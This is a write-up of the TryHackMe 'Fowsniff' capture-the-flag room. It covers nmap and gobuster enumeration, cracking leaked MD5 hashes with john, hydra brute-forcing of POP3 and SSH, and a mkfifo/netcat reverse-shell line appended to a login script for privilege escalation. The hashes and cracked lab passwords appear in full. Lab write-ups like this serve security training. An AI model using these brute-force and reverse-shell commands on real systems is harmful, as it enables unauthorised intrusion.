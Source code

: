 # Fowsniff CTF

**Room Link:** [https://tryhackme.com/room/ctf](https://tryhackme.com/room/ctf)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (24) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (26) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The homepage mentioned there was an attack. If you go to their twitter page the hacker says he dumped all the users password in pastebin. When I did this writeup the pastebin had been taken down so I just took it from another walkthrough.

<figure><img src="../../.gitbook/assets/image (20) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (23) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



```
FOWSNIFF CORP PASSWORD LEAK
            ''~``
           ( o o )
+-----.oooO--(_)--Oooo.------+
|                            |
|          FOWSNIFF          |
|            got             |
|           PWN3D!!!         |
|                            |         
|       .oooO                |         
|        (   )   Oooo.       |         
+---------\ (----(   )-------+
           \_)    ) /
                 (_/
FowSniff Corp got pwn3d by B1gN1nj4!
No one is safe from my 1337 skillz!


mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e

Fowsniff Corporation Passwords LEAKED!
FOWSNIFF CORP PASSWORD DUMP!

Here are their email passwords dumped from their databases.
They left their pop3 server WIDE OPEN, too!

MD5 is insecure, so you shouldn't have trouble cracking them but I was too lazy haha =P

l8r n00bz!

B1gN1nj4

```



**Kali**



```
john --format=raw-md5 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (15) (1) (2).png" alt=""><figcaption></figcaption></figure>



```
mauer@fowsniff:mailcall
mustikka@fowsniff:bilbo101
tegel@fowsniff:apples01
baksteen@fowsniff:skyler22
seina@fowsniff:scoobydoo2
mursten@fowsniff:carp4ever
parede@fowsniff:orlando12
sciana@fowsniff:07011972
```







### TCP/110 - POP3

**Kali**

```
hydra -L users2 -P pass.txt -f $VICTIM pop3 -V
```

<figure><img src="../../.gitbook/assets/image (25) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
telnet $VICTIM 110

USER seina
PASS scoobydoo2
RETR 1
```

<figure><img src="../../.gitbook/assets/image (29) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
telnet $VICTIM 110

USER seina
PASS scoobydoo2
RETR 2
```

<figure><img src="../../.gitbook/assets/image (30) (1) (2).png" alt=""><figcaption></figcaption></figure>

### TCP/22 - SSH

**Kali**

```
hydra -L users2 -p "S1ck3nBluff+secureshell" $VICTIM -t4 ssh
```

<figure><img src="../../.gitbook/assets/image (22) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh baksteen@$VICTIM
Password: S1ck3nBluff+secureshell
```

<figure><img src="../../.gitbook/assets/image (37) (2).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
id
groups
find / -type f -group users 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (42) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $KALI 1337 >/tmp/f" >> /opt/cube/cube.sh
```

**Kali**

```
nc -lvnp 1337
```

**Victim**

```
ssh baksteen@$VICTIM
Password: S1ck3nBluff+secureshell
```

<figure><img src="../../.gitbook/assets/image (36) (2).png" alt=""><figcaption></figcaption></figure>





























